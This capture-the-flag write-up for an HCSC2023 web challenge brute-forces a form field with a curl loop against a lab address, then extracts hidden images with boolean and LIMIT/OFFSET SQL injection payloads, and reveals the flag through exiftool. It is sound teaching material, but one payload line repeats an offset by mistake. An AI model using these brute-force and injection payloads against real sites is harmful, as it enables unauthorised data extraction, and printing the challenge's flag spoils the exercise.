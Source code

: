 # Checking the site

Visiting the site reveals the following form.

![](screenshots/1.png)

# Form

Sending the form with the default `Warner` reveals an image.

![](workdir/134357887.png)

# Brute forcing

Notice that the form gives result after 3 letters and case insensitive. This can be easily bruteforced.

```bash
for x in {a..z}; do for y in {a..z}; do for z in {a..z}; do curl -d "felado=$x$y$z" -X POST http://10.10.8.11:8666/ 2> /dev/null | grep img; done; done; done
```
![](screenshots/3.png)

# SQLi

Alternatively notice that the form also vulnerable to SQL injects. Just enter a `"`, like below. The former gives the Warner Bros letter, the latter not.

```
%' AND 1=1 #
%' AND 1=2 #
```

The images can be gathered 1 by 1.

```
' LIMIT 1 OFFSET 0 #
' LIMIT 1 OFFSET 1 #
' LIMIT 1 OFFSET 1 #
' LIMIT 1 OFFSET 3 #
```

There are no more images left.

# Flag image

On the image with Zabos Csokolade, they hand over the flag (`flag-et szeretnénk átnyújtani`), but there is no flag visible.

![](workdir/477574637.png)

# Metadata

The flag is in the `Artist` metadata.

```bash
exiftool 477574637.png
```

![](screenshots/2.png)


# Flag
HCSC2023{D1ana_I_am_crazy_l0ving_y0u}
